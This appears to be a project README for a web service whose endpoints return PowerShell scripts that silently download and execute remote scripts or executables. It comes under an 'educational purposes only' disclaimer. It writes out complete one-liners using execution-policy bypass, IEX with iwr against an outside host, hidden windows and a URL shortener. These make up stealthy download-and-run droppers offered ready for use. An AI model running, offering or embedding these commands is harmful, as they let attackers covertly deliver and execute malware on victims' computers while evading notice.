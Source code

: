 This is a server which runs utils for various project

> **Disclaimer** \
> This project shall be used for **educational purposes only** \
> I (the author) take no responsibility or liability related to its usage.
> Any illegal activities are strictly forbidden.

# Endpoints

## [/pshid](https://vercelutilsserver.totallysafe.ch/exehid)

returns a powershell script, downloads and executes a powershell script without a window


example: [`/pshid?url=is.gd/tuioh`](https://vercelutilsserver.totallysafe.ch/pshid?url=is.gd%2Ftuioh)

which can be executed with 
```shell
powershell -ep ByPass "IEX(iwr('https://vercelutilsserver.totallysafe.ch/pshid?url=is.gd%2Ftuioh'))"
```

## [/exehid](https://vercelutilsserver.totallysafe.ch/exe2ps1)

downloads and runs an executable via pshid


example: [`/exehid?url=https://www.python.org/ftp/python/3.12.4/python-3.12.4.exe`](https://vercelutilsserver.totallysafe.ch/exehid?url=https%3A%2F%2Fwww.python.org%2Fftp%2Fpython%2F3.12.4%2Fpython-3.12.4.exe)

which can be executed with 
```shell
powershell -ep ByPass "IEX(iwr('https://vercelutilsserver.totallysafe.ch/exehid?url=https%3A%2F%2Fwww.python.org%2Fftp%2Fpython%2F3.12.4%2Fpython-3.12.4.exe'))"
```

## [/exe2ps1](https://vercelutilsserver.totallysafe.ch/exe2ps1)

<details>
<summary>Details</summary>

returns a powershell script, which downloads and runs an executable from `param:url` with all `param:arg` passed


example: [`/exe2ps1?url=https://www.python.org/ftp/python/3.12.4/python-3.12.4.exe`](https://vercelutilsserver.totallysafe.ch/exe2ps1?url=https%3A%2F%2Fwww.python.org%2Fftp%2Fpython%2F3.12.4%2Fpython-3.12.4.exe)

which can be executed with 
```shell
powershell -ep ByPass -w h "IEX(iwr('https://vercelutilsserver.totallysafe.ch/exe2ps1?url=https%3A%2F%2Fwww.python.org%2Fftp%2Fpython%2F3.12.4%2Fpython-3.12.4.exe'))"
```
</details>